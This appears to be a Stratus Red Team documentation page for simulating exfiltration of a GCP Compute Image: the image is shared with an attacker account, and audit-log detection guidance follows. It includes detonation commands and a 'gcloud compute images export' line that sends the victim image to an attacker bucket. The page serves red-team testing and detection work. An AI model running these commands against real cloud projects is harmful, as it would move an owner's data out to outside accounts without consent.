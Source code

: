 ```yaml
---
title: Exfiltrate Compute Image by sharing it
---
```


# Exfiltrate Compute Image by sharing it

 <span class="smallcaps w3-badge w3-orange w3-round w3-text-sand" title="This attack technique might be slow to warm up or detonate">slow</span> 
 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: GCP

## MITRE ATT&CK Tactics


- Exfiltration

## Description


Exfiltrates a Compute Image by sharing with a fictitious attacker account. The attacker could then create a snapshot of the image in their GCP project.

<span style="font-variant: small-caps;">Warm-up</span>:

- Create a Compute Image

<span style="font-variant: small-caps;">Detonation</span>:

- Set the IAM policy of the image so that the attacker account has permissions to read the image in their own project

!!! note

	Since the target e-mail must exist for this attack simulation to work, Stratus Red Team grants the role to stratusredteam@gmail.com by default.
	This is a real Google account, owned by Stratus Red Team maintainers and that is not used for any other purpose than this attack simulation. However, you can override
	this behavior by setting the environment variable <code>STRATUS_RED_TEAM_ATTACKER_EMAIL</code>, for instance:

	```bash
	export STRATUS_RED_TEAM_ATTACKER_EMAIL="your-own-gmail-account@gmail.com"
	stratus detonate gcp.exfiltration.share-compute-image
	```


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate gcp.exfiltration.share-compute-image
```
## Detection


You can detect when someone changes the IAM policy of a Compute Image, using the GCP Admin Activity audit logs event <code>v1.compute.images.setIamPolicy</code>. Here's a sample event, shortened for clarity:

```json hl_lines="18 20 25""
{
  "protoPayload": {
    "@type": "type.googleapis.com/google.cloud.audit.AuditLog",
    "authenticationInfo": {
      "principalEmail": "user-sharing-the-image@domain.tld",
      "principalSubject": "user:user-sharing-the-image@domain.tld"
    },
    "requestMetadata": {
      "callerIp": "34.33.32.31",
      "callerSuppliedUserAgent": "google-cloud-sdk gcloud/..."
    },
    "resourceName": "projects/victim-project/global/images/stratus-red-team-victim-image",
    "request": {
      "policy": {
        "version": "3",
        "bindings": [
          {
            "role": "roles/owner",
            "members": [
              "user:attacker@gmail.com"
            ]
          }
        ]
      },
      "@type": "type.googleapis.com/compute.images.setIamPolicy"
    }
  }
}
```

After the attacker has permissions on the Compute Image, they can export it in their own GCP Storage using:

```bash
	gcloud compute images export \
	--destination-uri gs://attacker-bucket/victim-image \
	--image stratus-red-team-victim-image
```

Based on this event, detection strategies may include:

- Alerting when the IAM policy of a Compute Image is changed, especially if such a sharing mechanism is not part of your normal operations. Sample GCP Logs Explorer query:

```sql
protoPayload.methodName="v1.compute.images.setIamPolicy"
```




